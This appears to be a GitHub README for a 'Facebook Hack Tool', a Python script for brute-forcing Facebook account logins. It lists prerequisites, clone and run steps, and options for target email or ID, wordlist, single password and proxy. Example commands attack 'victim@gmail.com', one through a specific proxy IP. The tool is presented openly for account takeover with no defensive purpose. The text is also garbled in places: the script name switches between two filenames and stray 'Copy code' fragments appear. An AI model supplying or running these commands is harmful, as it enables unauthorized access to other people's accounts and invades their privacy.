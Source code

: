# facebook
repo for facebook
Facebook Hack Tool
This tool is designed to perform brute-force attacks on Facebook accounts. It allows you to specify a target email or Facebook ID, along with a wordlist or a single password, to attempt to log in to the target account.

Prerequisites
Before using this tool, ensure you have the following installed:

Python (2.7 or later)
Requests module (pip install requests)
Mechanize module (pip install mechanize)
Usage
To use the tool, follow these steps:

Clone the repository:
git clone https://github.com/your_username/facebook-hack-tool.git cd facebook-hack-tool

Run the script:
python facebook_hack.py [OPTIONS...]

Options:

-t <target email> or <FACEBOOK ID>: Specify the target email or Facebook ID.
-w <wordlist Path>: Specify the path to the wordlist file.
-s <single password>: Specify a single password to check.
-p <Proxy IP:PORT>: Specify an HTTP/S proxy (optional).
-g <TARGET Facebook Profile URL>: Specify the target Facebook profile URL to get their ID.
-u/--update: Update the Facebook Hack tool.
Examples
Here are some examples of how to use the tool:

Brute-force attack using a wordlist:
python facebook_hack.py -t victim@gmail.com -w /path/to/wordlist.txt

Brute-force attack using a single password:
python facebook_brute.py -t victim@gmail.com -s 1234567

arduino Copy code

Brute-force attack using a proxy:
python facebook_hack.py -t victim@gmail.com -w /path/to/wordlist.txt -p 144.217.101.245:3129

bash Copy code

Update
To update the Facebook Hack tool, run the following command:

python facebook_brute.py -u

csharp Copy code
